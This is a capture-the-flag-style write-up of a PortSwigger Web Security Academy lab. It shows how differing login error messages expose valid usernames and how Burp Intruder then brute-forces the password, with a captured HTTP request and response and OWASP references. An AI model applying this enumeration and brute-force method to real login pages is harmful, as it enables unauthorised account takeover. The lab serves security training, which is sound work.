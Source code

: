 # Lab: Username enumeration via different responses

##  Lab Description

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- Candidate usernames
- Candidate passwords

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Lab Solution

Note: Every time the lab starts a random user-password is picked as correct combination.

A discrepancy factor is allowing an attacker to mount a user enumeration action against the application.

```
IF USER_EXISTS(username) THEN
    password_hash=HASH(password)
    IS_VALID=LOOKUP_CREDENTIALS_IN_STORE(username, password_hash)
    IF NOT IS_VALID THEN
        RETURN Error("Invalid Password!")
    ENDIF
ELSE
   RETURN Error("Invalid Username!")
ENDIF
```
![login-page](Assets/01-login-form.png)

![login-page](Assets/02-login-false-credentails.png)

![login-page](Assets/02-login-false-credentails-error.png)

HTTP Request

```
POST /login HTTP/2
Host: 0a8000c6032f889a839d1048008600f1.web-security-academy.net
Cookie: session=ElRiZ22npD7RdZAGjuopSPpx21u1MVDa
Content-Length: 26
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Origin: https://0a8000c6032f889a839d1048008600f1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8000c6032f889a839d1048008600f1.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=carlos&password=s
```

HTTP Reply

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3140

<!DOCTYPE html>
<html>
    <head>
      [...SNIP...]
      <section>
     <p class=is-warning>Invalid username</p>
     <form class=login-form method=POST action="/login">
         <label>Username</label>
         <input required type=username name="username" autofocus>
         <label>Password</label>
         <input required type=password name="password">
         <button class=button type=submit> Log in </button>
     </form>
 </section>
    [...SNIP...]
```

![login-page](Assets/03-login-false-credentails-request-and-response.png)

![login-page](Assets/04-sent-to-intruder-with-unsername-as-payload.png)

![login-page](Assets/05-payload-usernames.png)

![login-page](Assets/06-grep-for-invalid-username.png)

![login-page](Assets/07-only-one-with-not-invalid-username.png)

![login-page](Assets/08-incorrect-password-error.png)

![login-page](Assets/09-password-brute-force.png)

![login-page](Assets/10-302-redirct-correct-password.png)

![login-page](Assets/11-302-redirct-correct-password-response.png)

![login-page](Assets/12-congrats-solved.png)


```
HTTP/2 302 Found
Location: /my-account?id=user
Set-Cookie: session=2shSygxp0wwdEWfPSFUxzf8sIyRdZuko; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

## References

https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html#protect-against-automated-attacks
rapid7.com/fundamentals/brute-force-and-dictionary-attacks/
https://www.rapid7.com/blog/post/2017/06/15/about-user-enumeration/
